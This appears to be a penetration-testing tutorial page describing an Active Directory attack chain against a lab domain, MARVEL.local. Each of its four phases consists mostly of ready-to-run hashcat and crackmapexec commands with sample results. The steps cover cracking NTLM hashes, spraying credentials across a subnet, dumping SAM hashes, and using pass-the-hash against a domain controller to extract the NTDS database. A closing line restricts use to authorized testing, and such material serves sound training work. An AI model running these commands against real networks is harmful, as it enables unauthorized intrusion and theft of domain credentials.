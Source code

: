 ## Real-World Attack Chain Example

### Phase 1: Initial Compromise
```bash
# 1. Capture NTLM hash via responder/mitm6
# 2. Crack hash or use pass-the-hash
hashcat -m 1000 hash.txt rockyou.txt
# Result: fcastle:Password1
```

### Phase 2: Lateral Movement
```bash
# 3. Test credentials across network
crackmapexec smb 192.168.1.0/24 -u fcastle -d MARVEL.local -p Password1

# 4. Identify accessible systems
# Results show: SPIDERMAN (Pwn3d!), THEPUNISHER (Pwn3d!)
```

### Phase 3: Credential Harvesting
```bash
# 5. Dump SAM from accessible systems
crackmapexec smb 192.168.1.35 -u fcastle -d MARVEL.local -p Password1 --sam
crackmapexec smb 192.168.1.25 -u fcastle -d MARVEL.local -p Password1 --sam

# 6. Extract new credentials
# Found: administrator:aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76
```

### Phase 4: Privilege Escalation
```bash
# 7. Test admin hash across network
crackmapexec smb 192.168.1.0/24 -u administrator -H 5fbc3d5fec8206a30f4b6c473d68ae76

# 8. Access domain controller
crackmapexec smb 192.168.1.225 -u administrator -H 5fbc3d5fec8206a30f4b6c473d68ae76 --ntds
```

---

**Note**: Always ensure proper authorization before conducting pass attacks. These techniques should only be used in authorized penetration testing scenarios or controlled lab environments. 